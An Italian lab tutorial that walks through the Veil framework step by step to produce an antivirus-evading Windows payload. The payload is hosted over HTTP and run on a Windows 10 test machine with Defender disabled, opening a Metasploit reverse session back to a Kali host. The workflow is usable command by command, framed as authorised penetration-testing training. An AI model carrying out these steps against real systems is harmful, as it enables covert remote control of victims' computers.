# Veil - AV Evasion Framework

## Obiettivo

Generare payload Windows che eludono gli antivirus utilizzando il framework Veil.

## Cos`è Veil

Veil è un framework di generazione payload progettato specificamente per eludere i software antivirus. A differenza di msfvenom standard, Veil:

- Utilizza tecniche di offuscamento avanzate
- Supporta molteplici linguaggi di programmazione (Python, Go, C, C#, PowerShell)
- Implementa crittografia personalizzata per i payload
- Genera output in diversi formati (exe, dll, ps1, py)

## Come Funziona

```
1. Selezione del linguaggio
         |
         v
2. Generazione del payload
         |
         v
3. Offuscamento del codice
         |
         v
4. Compilazione/Cifratura
         |
         v
5. Output del file infetto
```

## Ambiente di Test

| Macchina | OS | IP | Ruolo |
|----------|----|----|-------|
| Attacker | Kali Linux | 192.168.23.128 | Generazione payload |
| Target | Windows 10 | 192.168.23.130 | Esecuzione del payload |

---

## Prerequisiti

### Installazione Standard

```
sudo apt update
sudo apt install veil -y
```

### Se l'installazione fallisce (come spesso accade)

Durante l'installazione, se viene chiesto:

```
[?] Are you sure you wish to install Veil? Continue with installation?
```

Rispondere `y`.

Se si verificano errori, eseguire:

```
git config --global http.postBuffer 524288000
git config --global http.version HTTP/1.1
cd /usr/share/veil/config
./setup.sh --force --silent
WINEPREFIX=/var/lib/veil/wine wine /var/lib/veil/wine/drive_c/Python34/python.exe -m pip install pefile==2019.4.18
```

---

## Procedura Passo-Passo

### Step 1: Avvia Veil

`veil`



### Step 2: Entra nel modulo Evasion

`use 1`



### Step 3: Visualizza i payload disponibili

`list`



### Step 4: Seleziona il payload

`use 16`



### Step 5: Configura il Payload

| Prompt | Risposta | Descrizione |
|--------|----------|-------------|
| `set LHOST` | `192.168.23.128` | IP di Kali |
| `set LPORT` | `4444` | Porta di ascolto |



### Step 6: Genera il Payload

`generate`

Quando viene chiesto il nome del file, premere semplicemente **Invio** per usare il default `payload`.



### Step 7: Torna al menu principale ed esci

```
back
exit
```

---

## Step 8: Prepara il Payload per la Consegna

### 8.1 Crea la directory di lavoro

```
mkdir -p ~/Desktop/veil_lab
cd ~/Desktop/veil_lab
```

### 8.2 Copia il payload generato

```
cp /var/lib/veil/output/compiled/payload.exe ~/Desktop/veil_lab/
ls -la payload.exe
```

## Step 8.3: Avvia il Server HTTP

```
cd ~/Desktop/veil_lab
python3 -m http.server 8001
```



---

## Step 9: Avvia il Listener Metasploit

### Terminale 2 (nuovo terminale)

`msfconsole -q -r /var/lib/veil/output/handlers/payload.rc`




## Step 10: Disabilita Windows Defender



---

## Step 11: Download ed Esecuzione (Windows 10)

### Scarica il file

Apri il browser e naviga su:

`http://192.168.23.128:8001/payload.exe`

**Salva il file sul desktop** (`C:\Users\admin\Desktop\`)

### Esegui il file

Apri il **Prompt dei comandi come Amministratore**:

```
cd C:\Users\admin\Desktop
payload.exe
```

---

## Step 12: Verifica la Sessione (Kali - Terminale 2)

Dovresti vedere:



**Interagisci con la sessione:**

`sessions -i 1`

**Comandi di verifica:**



---

## Step 13: Verifica dell'Attacco (Windows 10)

### 1. Controlla il processo (Task Manager)

- Apri **Task Manager** (`CTRL+MAIUSC+ESC`)
- Vai su **Dettagli**
- Cerca `payload.exe` (dovrebbe essere in esecuzione)

### 2. Controlla la connessione di rete (CMD)

`netstat -ano | findstr 4444`

Il PID corrisponde a `payload.exe`.

---

## Step 14: Pulizia

### Su Windows 10

```
# Termina il processo infetto
taskkill /F /IM payload.exe

# Elimina il file scaricato
del C:\Users\admin\Desktop\payload.exe

# Riattiva Windows Defender
```

### Su Kali Linux

```
# Chiudi Metasploit
exit

# Ferma il server HTTP
CTRL+C

# Rimuovi la directory di lavoro (opzionale)
rm -rf ~/Desktop/veil_lab
```

---

## Note di Sicurezza

> **⚠️ ATTENZIONE**: Questo è un tool didattico: utilizzalo solo in ambienti di test autorizzati

- Veil è usato da pentester professionisti in contesti autorizzati
- I moderni EDR possono rilevare comunque il payload
- Utilizza sempre in ambienti isolati per i test